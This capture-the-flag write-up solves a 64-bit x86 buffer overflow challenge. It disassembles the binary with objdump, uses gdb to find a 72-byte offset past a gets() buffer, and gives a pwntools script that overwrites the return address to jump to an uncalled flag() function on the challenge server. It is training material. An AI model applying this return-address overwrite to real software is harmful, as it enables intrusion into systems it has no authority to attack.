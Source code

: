 # **X-Sixty-What - 200 pts**

### Key points

- 64-bit x84 structure
- Buffer overflow

---

## **Contents**

- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

---

## Overview

### Description

> Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this program.

---

## Solution

The source code is much like the other buffer overflow challenges. We have a `vuln()` function that takes user input using `gets()`. A function `flag()` reads and prints the flag, but it is never called. We just have to overwrite the return address of `vuln()` to the address of `flag()`.

Use a decompiler/disassembler. I will use objdump.

```ps1
$ objdump -d vuln > vuln.txt
$ cat vuln.txt
...
00000000004012b2 <vuln>:
  4012b2: f3 0f 1e fa     endbr64
  4012b6: 55              push   %rbp
  4012b7: 48 89 e5        mov    %rsp,%rbp
  4012ba: 48 83 ec 40     sub    $0x40,%rsp
  4012be: 48 8d 45 c0     lea    -0x40(%rbp),%rax
  4012c2: 48 89 c7        mov    %rax,%rdi
  4012c5: b8 00 00 00 00  mov    $0x0,%eax
  4012ca: e8 31 fe ff ff  callq  401100 <gets@plt>
  4012cf: 90              nop
  4012d0: c9              leaveq
  4012d1: c3              retq
...
```

The return address of `vuln()` is `0x4012d1`. Open gdb and set a breakpoint there:

...

the `rsp` register points to the return address, so that's what we need to overflow.

Let's find the offset of `rsp`. The buffer size is 64 bytes, so we'll enter a little more than 64.

```ps1
$ gdb vuln
gef>  r
Starting program: /var/www/CanHack/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbccccddddeeeeffffgggg

Program received signal SIGSEGV, Segmentation fault.
...
$rsp   : 0x007fffffffe318  →  "ddddeeeeffffgggg"
...
```

`rsp` has been overwritten to `ddddeeeeffffgggg`.The offset turns out to be 72, so our payload will be 72 bytes + address of `flag()`.

```ps1
0000000000401236 <flag>:
  401236:       f3 0f 1e fa             endbr64
  40123a:       55                      push   %rbp
  40123b:       48 89 e5                mov    %rsp,%rbp
  40123e:       48 83 ec 50             sub    $0x50,%rsp
```

The second hint suggests we jump to the instruction after the first `push`, so that will be the `mov` instruction at 0x40123b.

---

### The Script

```py
from pwn import *

payload = b"a"*72 + p64(0x40123b)

r = remote("saturn.picoctf.net", "60289")
r.sendline(payload)
result = r.recvall()
FLAG = result[result.index("pico"):result.index("}") + 1]
print("Flag:", FLAG)
```

---

## Flag

> `picoCTF{}`
